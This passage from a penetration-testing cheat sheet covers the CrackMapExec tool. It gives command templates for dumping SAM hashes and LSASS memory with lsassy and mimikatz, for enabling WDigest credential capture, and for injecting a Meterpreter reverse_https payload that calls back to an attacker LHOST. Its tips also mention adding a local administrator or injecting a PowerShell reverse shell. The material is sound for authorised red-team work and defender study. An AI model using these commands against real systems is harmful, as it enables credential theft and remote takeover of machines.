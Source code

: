 ```
[*] wdigest                   Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1
[*] web_delivery              Kicks off a Metasploit Payload using the exploit/multi/script/web_delivery module
[*] wireless                  Get key of all wireless interfaces
```

`CrackMapExec` notable modules usage:

```
# SAM dump.
crackmapexec smb <TARGET | TARGETS> --sam (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)

# LSASS dump using lsassy.
crackmapexec smb <TARGET | TARGETS> -M lsassy (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)
# Outdated LSASS dump technique using mimikatz that is flagged by most antivirus products.
crackmapexec smb <TARGET | TARGETS> -M mimikatz (-d <DOMAIN> | --local-auth) -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)

# Meterpreter.
# msf > use multi/handler
# msf exploit(handler) > set payload windows/meterpreter/reverse_https
crackmapexec smb <TARGET | TARGETS> -M metinject -o LHOST=<HOST> LPORT=<PORT> -d <DOMAIN> -u <USERNAME> (-p <PASSWORD | PASSWORDS_FILE> | -H <HASH>)
```

For more information on how to remotely extract credentials from the `SAM`
registry hive and the `LSASS` process, refer to the `[Windows] Post
exploitation` note.

Note that:
  - The `--lsa` option dumps LSA secrets which can't be used in `Pass-the-Hash`
    attack and are harder to crack.
  - The `<TARGET>` and `<MODULE>` should be specified before the credentials as
    a `CrackMapExec` bug could skip the targets / module otherwise.
  - If the targeted host is unreachable, `CrackMapExec` may exit with out
    returning any error message.
  - In case the metinject fails, a local administrator can be added for RDP
    access or a powershell reverse shell injected in memory instead (refer to
    the `[General] Shells - PowerShell` note).
  - If a `permission denied` error is raised upon first execution of
    `crackmapexec` on a Linux system, necessary rights to create new files in
    the user's `HOME` folder may be missing. A temporary alternative `HOME`
    folder can be specified for `crackmapexec` execution: `HOME=<PATH>
    crackmapexec [...]`.
